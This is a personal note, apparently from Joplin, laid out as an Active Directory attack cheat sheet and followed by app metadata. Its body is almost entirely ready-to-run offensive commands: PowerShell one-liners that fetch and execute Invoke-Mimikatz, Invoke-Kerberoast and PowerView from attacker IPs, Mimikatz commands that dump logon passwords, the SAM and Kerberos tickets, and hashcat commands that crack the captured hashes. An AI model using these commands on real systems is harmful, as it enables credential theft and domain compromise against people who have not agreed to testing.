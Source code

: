 0. Cheat Sheet

# Remote Mimikatz

powershell -nop "IEX(New-Object System.Net.WebClient).downloadString('http://10.10.14.9:8000/Invoke-Mimikatz.ps1')"

Invoke-Mimikatz -DumpCreds #Dump creds from memory

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

kerberos::list /export

<ins>**NOTE:**</ins>mimikatz latest version doesn't work on 1809 build of windows. Use the older version 'mimikatzold64.exe'

# Remote Kerberoast

## Hashcat method - MUCH FASTER

powershell -ep bypass "IEX(New-Object System.Net.WebClient).downloadString('[http://192.168.49.54/Invoke-Kerberoast.ps1](http://192.168.49.154/Invoke-Kerberoast.ps1)') ; Invoke-Kerberoast -OutputFormat Hashcat | Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"

klist

\# Send back to kali and run hashcat

hashcat -m 13100 --force -a 0 -o Cracked.txt kerb-Hash0.txt /usr/share/wordlists/rockyou.txt

## Using Invoke-Mimikatz

> Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "kerberos::list /export" "lsadump::sam" "exit"'
> 
> \# Transfer file back to kali
> 
> python3 /usr/share/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt &lt;.kirbi file&gt;

# PowerView \[Get Currently logged on usernames\]

Import-Module .\\PowerView.ps1 OR powershell -nop "IEX(New-Object System.Net.WebClient).downloadString('[http://10.10.14.9:8000/PowerView.ps1](http://10.10.14.9:8000/ipw.ps1)')"

Get-NetLoggedon -ComputerName &lt;workstation&gt; # NetWkstaUserEnum - get logged on user list

Get-NetSession -ComputerName &lt;DC&gt; # NetSessionEnum - Get active sessions

## If there are logon users

> \# Obtain Mimikatz console
> 
> sekurlsa::logonpasswords

# All libraries are in ~/ADlibs

id: 47d7422e06d948c0ba7ec81fc6caab6d
parent_id: ac0bd99a1a324cb6a297fd05a2b92039
created_time: 2022-04-20T03:39:15.830Z
updated_time: 2022-08-18T18:55:41.603Z
is_conflict: 0
latitude: 1.30360000
longitude: 103.85540000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-04-20T03:39:15.830Z
user_updated_time: 2022-08-18T18:55:41.603Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1